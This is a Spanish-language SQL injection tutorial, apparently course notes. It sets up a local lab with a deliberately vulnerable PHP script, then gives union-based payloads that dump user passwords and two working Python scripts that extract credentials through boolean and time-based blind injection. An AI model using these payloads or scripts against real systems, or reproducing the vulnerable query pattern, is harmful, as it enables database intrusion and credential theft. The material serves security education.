



# SQL Injection (Inyección SQL)

**SQL Injection** (**SQLI**) es una técnica de ataque utilizada para explotar vulnerabilidades en aplicaciones web que **no validan adecuadamente** la entrada del usuario en la consulta SQL que se envía a la base de datos. Los atacantes pueden utilizar esta técnica para ejecutar consultas SQL maliciosas y obtener información confidencial, como nombres de usuario, contraseñas y otra información almacenada en la base de datos.

Las inyecciones SQL se producen cuando los atacantes insertan código SQL malicioso en los campos de entrada de una aplicación web. Si la aplicación no valida adecuadamente la entrada del usuario, la consulta SQL maliciosa se ejecutará en la base de datos, lo que permitirá al atacante obtener información confidencial o incluso controlar la base de datos.

Hay varios tipos de inyecciones SQL, incluyendo:

* **Inyección SQL basada en errores**: Este tipo de inyección SQL aprovecha **errores en el código SQL** para obtener información. Por ejemplo, si una consulta devuelve un error con un mensaje específico, se puede utilizar ese mensaje para obtener información adicional del sistema.
* **Inyección SQL basada en tiempo**: Este tipo de inyección SQL utiliza una consulta que **tarda mucho tiempo en ejecutarse** para obtener información. Por ejemplo, si se utiliza una consulta que realiza una búsqueda en una tabla y se añade un retardo en la consulta, se puede utilizar ese retardo para obtener información adicional
* **Inyección SQL basada en booleanos**: Este tipo de inyección SQL utiliza consultas con **expresiones booleanas** para obtener información adicional. Por ejemplo, se puede utilizar una consulta con una expresión booleana para determinar si un usuario existe en una base de datos.
* **Inyección SQL basada en uniones**: Este tipo de inyección SQL utiliza la cláusula “**UNION**” para combinar dos o más consultas en una sola. Por ejemplo, si se utiliza una consulta que devuelve información sobre los usuarios y se agrega una cláusula “**UNION**” con otra consulta que devuelve información sobre los permisos, se puede obtener información adicional sobre los permisos de los usuarios.
* **Inyección SQL basada en stacked queries**: Este tipo de inyección SQL aprovecha la posibilidad de **ejecutar múltiples consultas** en una sola sentencia para obtener información adicional. Por ejemplo, se puede utilizar una consulta que inserta un registro en una tabla y luego agregar una consulta adicional que devuelve información sobre la tabla.

Cabe destacar que, además de las técnicas citadas anteriormente, existen muchos otros tipos de inyecciones SQL. Sin embargo, estas son algunas de las más populares y comúnmente utilizadas por los atacantes en páginas web vulnerables.

Asimismo, es necesario hacer una breve distinción de los diferentes tipos de bases de datos existentes:

* **Bases de datos relacionales**: Las inyecciones SQL son más comunes en bases de datos relacionales como MySQL, SQL Server, Oracle, PostgreSQL, entre otros. En estas bases de datos, se utilizan consultas SQL para acceder a los datos y realizar operaciones en la base de datos.
* **Bases de datos NoSQL**: Aunque las inyecciones SQL son menos comunes en bases de datos NoSQL, todavía es posible realizar este tipo de ataque. Las bases de datos NoSQL, como MongoDB o Cassandra, no utilizan el lenguaje SQL, sino un modelo de datos diferente. Sin embargo, es posible realizar inyecciones de comandos en las consultas que se realizan en estas bases de datos. Esto lo veremos unas clases más adelante.
* **Bases de datos de grafos**: Las bases de datos de grafos, como Neo4j, también pueden ser vulnerables a inyecciones SQL. En estas bases de datos, se utilizan consultas para acceder a los nodos y relaciones que se han almacenado en la base de datos.
* **Bases de datos de objetos**: Las bases de datos de objetos, como db4o, también pueden ser vulnerables a inyecciones SQL. En estas bases de datos, se utilizan consultas para acceder a los objetos que se han almacenado en la base de datos.

Es importante entender los diferentes tipos de inyecciones SQL y cómo pueden utilizarse para obtener información confidencial y controlar una base de datos. Los desarrolladores deben asegurarse de validar adecuadamente la entrada del usuario y de utilizar técnicas de defensa, como la sanitización de entrada y la preparación de consultas SQL, para prevenir las inyecciones SQL en sus aplicaciones web.

A continuación, se proporciona el enlace a la utilidad online de ‘**ExtendsClass**‘ que utilizamos:

* **ExtendsClass MySQL Online**: [https://extendsclass.com/mysql-online.html](https://extendsclass.com/mysql-online.html)

## Pruebas en el laboratorio

* Instalación necesario:

```shell
> apt install mariadb-server apache2 php-mysql -y
```

* Iniciar servicios de mysql y apache2:

```shell
> service mysql start
> lsof -i :3306
COMMAND   PID  USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
mariadbd 6306 mysql   19u  IPv4  35548      0t0  TCP localhost:mysql (LISTEN)
> service apache2 start
> lsof -i :80
COMMAND  PID     USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
apache2 6806     root    4u  IPv6  42583      0t0  TCP *:http (LISTEN)
apache2 6808 www-data    4u  IPv6  42583      0t0  TCP *:http (LISTEN)
apache2 6809 www-data    4u  IPv6  42583      0t0  TCP *:http (LISTEN)
apache2 6810 www-data    4u  IPv6  42583      0t0  TCP *:http (LISTEN)
apache2 6811 www-data    4u  IPv6  42583      0t0  TCP *:http (LISTEN)
apache2 6812 www-data    4u  IPv6  42583      0t0  TCP *:http (LISTEN)
```

* Entrar a **mysql** con el usuario **root** sin contraseña:

```shell
> mysql -u root -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 30
Server version: 10.5.19-MariaDB-0+deb11u1 Debian 11

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

* Crear base de datos y listar-la:

```mysql
MariaDB [(none)]> CREATE DATABASE db;
Query OK, 1 row affected (0,001 sec)

MariaDB [(none)]> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| db                 |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0,001 sec)
```

* Crear tabla **users** para la base de datos antes creada:

```mysql
MariaDB [(none)]> USE db;
Database changed
MariaDB [db]> CREATE TABLE users(id INT(32), username VARCHAR(32), password VARCHAR(32));
Query OK, 0 rows affected (0,017 sec)

MariaDB [db]> SHOW TABLES;
+--------------+
| Tables_in_db |
+--------------+
| users        |
+--------------+
1 row in set (0,001 sec)

MariaDB [db]> DESCRIBE users;
+----------+-------------+------+-----+---------+-------+
| Field    | Type        | Null | Key | Default | Extra |
+----------+-------------+------+-----+---------+-------+
| id       | int(32)     | YES  |     | NULL    |       |
| username | varchar(32) | YES  |     | NULL    |       |
| password | varchar(32) | YES  |     | NULL    |       |
+----------+-------------+------+-----+---------+-------+
3 rows in set (0,001 sec)
```

* Insertar datos en la tabla **users**:

```mysql
MariaDB [db]> INSERT INTO users(id, username, password) VALUES(1, 'admin', 'contraseña');
Query OK, 1 row affected (0,003 sec)

MariaDB [db]> INSERT INTO users(id, username, password) VALUES(2, 'red', '$password$');
Query OK, 1 row affected (0,002 sec)

MariaDB [db]> INSERT INTO users(id, username, password) VALUES(3, 'blue', '$password$');
Query OK, 1 row affected (0,002 sec)
```

* Ver todos los datos de la tabla **users**:

```mysql
MariaDB [db]> SELECT * FROM users;
+------+----------+-------------+
| id   | username | password    |
+------+----------+-------------+
|    1 | admin    | contraseña  |
|    2 | red      | $password$  |
|    3 | blue     | $password$  |
+------+----------+-------------+
3 rows in set (0,001 sec)
```

* Crear **usuario** para **conectar** la base de datos:

```mysql
MariaDB [db]> CREATE USER 'red'@'localhost' IDENTIFIED BY 'love';
Query OK, 0 rows affected (0,005 sec)
MariaDB [db]> GRANT ALL PRIVILEGES on db.* TO 'red'@'localhost';
Query OK, 0 rows affected (0,002 sec)
MariaDB [db]> exit
Bye
```

* Script en php para **conectar** con la base de datos y ver lo **errores**:

```php
<?php
    $server = "localhost";
    $username = "red";
    $password = "love";
    $database = "db";
	
	// Conectar con la base de datos
	$con = new mysqli($server, $username, $password, $database);
	$id = $_GET['id'];

	$data = mysqli_query($con, "SELECT username FROM users WHERE id = '$id'") or die(mysqli_error($con));
	
	$response = mysqli_fetch_array($data);
	
	echo $response['username'];
?>
```

* Web **usuario** admin:

<figure><figcaption></figcaption></figure>

### Inyecciónes SQL In-band

#### Inyección SQL basada en errores

* Ver **error** de **sintaxis** con la comilla `'`:

**➜** `http://localhost/search_users.php?id=1'`

You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1

***

#### Inyección SQL basada en uniones

* Determinar cuantas **columnas** hay

**➜** `http://localhost/search_users.php?id=1' ORDER BY 1-- -`

* Ver datos inyectables con **union select** donde el **id** no exista

**➜** `http://localhost/search_users.php?id=-1' UNION SELECT 1-- -`

* Ver base de datos **actualmente** en **uso**:

<figure><figcaption></figcaption></figure>

* Ver **todas** las base de datos

**➜** `http://localhost/search_users.php?id=-1' UNION SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata-- -`

* Ver **tablas** de una base de datos en **concreto**

**➜** `http://localhost/search_users.php?id=-1' UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema = 'db'-- -`

* Ver **columnas** de una **tabla** en **concreto:**

**➜** `http://localhost/search_users.php?id=-1' UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'users'-- -`

* Ver **datos** de las **columnas** de una **tabla** en **concreto:**

**➜** `http://localhost/search_users.php?id=-1' UNION SELECT GROUP_CONCAT(username,0x3a,password) FROM users-- -`

* Ver **datos** de las **columnas** indicadas de una base de datos sin **uso** actualmente indicando el nombre de la base de datos:

**➜** `http://localhost/search_users.php?id=-1' UNION SELECT GROUP_CONCAT(username,0x3a,password) FROM db.users-- -`

<figure><figcaption></figcaption></figure>

### Inyecciónes SQL blind (a ciegas)

* Script en php que no muestra el output y tiene un **condicional** que mira si **existe** el **usuario**:

```php
<?php
    $server = "localhost";
    $username = "red";
    $password = "love";
    $database = "db";
	
	// Conectar con la base de datos
	$con = new mysqli($server, $username, $password, $database);
	// Sanitizacion escapar caracteres especiales
	$id = mysqli_real_escape_string($con, $_GET['id']);

	$data = mysqli_query($con, "SELECT username FROM users WHERE id = $id");
	
	$response = mysqli_fetch_array($data);
	
	if (! isset($response['username'])){
		http_response_code(404);
	}
?>
```

***

#### Inyección SQL basada en booleanos

* Ver en las **cabeceras** de la **respuesta** si el usuario existe depediendo del codigo de **estado** si es **exitoso** o no:

```shell
> curl -s -X GET "http://localhost/search_users.php?id=1" -I
HTTP/1.1 200 OK
Server: Apache/2.4.56 (Debian)
Content-Length: 0
Content-Type: text/html; charset=UTF-8

> curl -s -X GET "http://localhost/search_users.php?id=9" -I
HTTP/1.1 404 Not Found
Server: Apache/2.4.56 (Debian)
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

* Ver si el primer **caracter** del usuario es igual al valor de **a** en **hexadecimal**:

```shell
> curl -s -I -X GET "http://localhost/search_users.php" -G --data-urlencode "id=-1 OR (SELECT(SELECT ASCII(SUBSTRING(username,1,1)) FROM users WHERE id = 1)=97)"
HTTP/1.1 200 OK
Server: Apache/2.4.56 (Debian)
Content-Length: 0
Content-Type: text/html; charset=UTF-8
> curl -s -I -X GET "http://localhost/search_users.php" -G --data-urlencode "id=-1 OR (SELECT(SELECT ASCII(SUBSTRING(username,1,1)) FROM users WHERE id = 1)=98)"
HTTP/1.1 404 Not Found
Server: Apache/2.4.56 (Debian)
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

* Script en python para hacer fuerza bruta con una **inyección** sql basada en **condiciones**:

```python
import requests, signal, sys, time, string
from pwn import *

def def_handler():
	print("\n\n[!] Saliendo...\n")
	sys.exit(1)

# Control +C 
signal.signal(signal.SIGINT, def_handler)

main_url = "http://localhost/search_users.php"
query = "SELECT GROUP_CONCAT(username,0x3a,password) FROM users"

def makeSQLi():
	p1 = log.progress("Fuerza bruta")
	p1.status("Iniciando processo de fuerza bruta")
	
	time.sleep(2)
	
	p2 = log.progress("Resultado")
	extracted_info = ""
	
	for p in range(1,150):
		for c in range(33, 126):
			sqli_url = f"{main_url}?id=-1 OR (SELECT(SELECT ASCII(SUBSTRING(({query}),{p},1)) FROM users WHERE id = 1)={c})"
			p1.status(sqli_url)
			r = requests.get(sqli_url)
			
			if r.status_code == 200:
				extracted_info += chr(c)
				p2.status(extracted_info)
				break

if __name__ == '__main__':
	makeSQLi()
```

#### Inyección SQL basada en tiempo

* Si la **consulta** tarda 5 **segundos** en **responder** es que el **valor** comparado es **correcto**:

```mysql
MariaDB [db]> USE db;
MariaDB [db]> SELECT * FROM users WHERE id = 1 AND IF(SUBSTR(database(),1,1)='d',SLEEP(5),1);
Empty set (5,001 sec)

MariaDB [db]> SELECT * FROM users WHERE id = 1 AND IF(SUBSTR(database(),1,1)='D',SLEEP(5),1);
Empty set (5,001 sec)

/* Comparar el primer caracter del nombre de la base de datos con el valor decimal correspondiente */
MariaDB [db]> SELECT * FROM users WHERE id = 1 AND IF(ASCII(SUBSTR(database(),1,1))=100,SLEEP(5),1);
Empty set (5,001 sec)

MariaDB [db]> SELECT * FROM users WHERE id = 1 AND IF(ASCII(SUBSTR(database(),1,1))=68,SLEEP(5),1);
+------+----------+-------------+
| id   | username | password    |
+------+----------+-------------+
|    1 | admin    | contraseña  |
+------+----------+-------------+
1 row in set (0,000 sec)
```

* Script en python para hacer fuerza bruta con una **inyección** sql basada en **tiempo**:

```python
import requests, signal, sys, time, string
from pwn import *

def def_handler():
	print("\n\n[!] Saliendo...\n")
	sys.exit(1)

# Control +C 
signal.signal(signal.SIGINT, def_handler)

main_url = "http://localhost/search_users.php"
query = "SELECT GROUP_CONCAT(username,0x3a,password) FROM users"

def makeSQLi():
	p1 = log.progress("Fuerza bruta")
	p1.status("Iniciando processo de fuerza bruta")
	
	time.sleep(2)
	
	p2 = log.progress("Resultado")
	extracted_info = ""
	
	for p in range(1,150):
		for c in range(33, 126):
			sqli_url = f"{main_url}?id=1 AND IF(ASCII(SUBSTR(({query}),{p},1))={c},SLEEP(1.5),1)"
			time_start = time.time()
			p1.status(sqli_url)
			r = requests.get(sqli_url)
			time_end = time.time()
			
			if time_end - time_start > 1.5:
				extracted_info += chr(c)
				p2.status(extracted_info)
				break

if __name__ == '__main__':
	makeSQLi()
```
